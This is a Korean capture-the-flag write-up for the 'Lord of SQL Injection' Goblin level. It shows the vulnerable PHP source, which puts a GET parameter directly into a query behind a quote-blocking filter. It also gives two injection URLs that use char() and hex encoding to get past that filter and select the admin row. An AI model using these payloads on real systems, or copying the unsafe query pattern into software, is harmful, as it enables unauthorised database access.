 # Lord of SQL Injection No.3 Goblin

LOS Goblin 문제는 `'`,`"`를 사용하지 않고 SQL 공격을 할 수 있도록 유도한 문제이다.

### 소스 코드

goblin 문제의 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

#### 문제 해결 조건
```sql
select id from prob_goblin where id='guest' and no={$_GET[no]}
```
위의 SQL문에서 id값을 admin으로 조작하면 문제 풀이에 성공하게 된다.

주의할 점으로는
```php
...
    if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
...
```
위의 if문에서 `'`, `"`, ``` ` ``` 를 `preg_match`로 사용을 제한했기 때문에 이 기호들을 사용하지 않고 SQL문을 조작할 수 있어야한다.

## Solution

```
http://los.eagle-jump.org/goblin_***.php?no=-1 or id=char(97,100,109,105,110) -- ;
```
URL에 `char` 함수를 통해 ASCII를 이용하여 기호 사용없이 `admin` 이라는 문자열을 삽입하여 문제를 해결할 수 있다.

```
http://los.eagle-jump.org/goblin_***.php?no=-1 or id=0x61646d696e -- ;
```

URL에 ASCII를 삽입하여 문제를 해결하는 방법 외에도 Hex 값을 삽입하여 `admin` SQL문을 조작할 수 있다.

#### Hex
* `admin`을 Hex로 전환하여 삽입을 하기 위해서는 반드시 앞에 `0x`를 붙여주어야 한다.

* [코드 변환 사이트](https://paulschou.com/tools/xlate/)